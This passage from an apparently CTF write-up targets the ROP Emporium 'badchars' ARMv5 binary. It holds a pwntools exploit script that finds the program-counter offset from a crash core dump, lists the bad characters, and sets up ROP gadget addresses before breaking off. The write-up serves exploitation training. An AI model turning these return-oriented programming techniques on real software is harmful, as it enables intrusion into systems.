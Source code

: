 

This should be easy enough, just adding its address to the payload will do:



```python
payload += call_print
```



- [x] Write the encoded string into memory
- [x] Decode the encoded string
- [x] Call our **usefulFunction** with the decoded string to get our flag



## Exploit

Here's the full exploit:



```python
from pwn import *

context.binary = elf = ELF('badchars_armv5')
context.log_level = 'info'


gs = '''
continue
'''

def start():
   if args.GDB:
       return gdb.debug(elf.path, gdbscript=gs)
   else:
       return process(elf.path)
  
def find_pc_offset(payload, alpha):
   io = start()
   io.sendlineafter("> ", payload)
   io.wait() # wait for crash
   core = io.corefile
   pc_value = core.pc
   pc_offset = cyclic_find(pc_value, alphabet=alpha)


   info("Found PC offset at: %#x", pc_offset)
   return pc_offset

# badchars are: 'x', 'g', 'a', '.'
# python -c 'from pwn import *; print(enhex(b"xga."))' = 7867612e
alpha = 'bcde'
payload = cyclic(100, alphabet=alpha)
pc_offset = find_pc_offset(payload, alpha)


io = start()

datasection_addr = elf.symbols['__data_start']
call_print = p32(0x000105e0)
storage_gadget = p32(0x00010610)
add_gadget = p32(0x00010600)

# gadgets
pop_r0_gadget = p32(0x000105fc) #: pop {r0, pc};
pop_r3_gadget = p32(0x00010690) # : pop {r4, pc};
```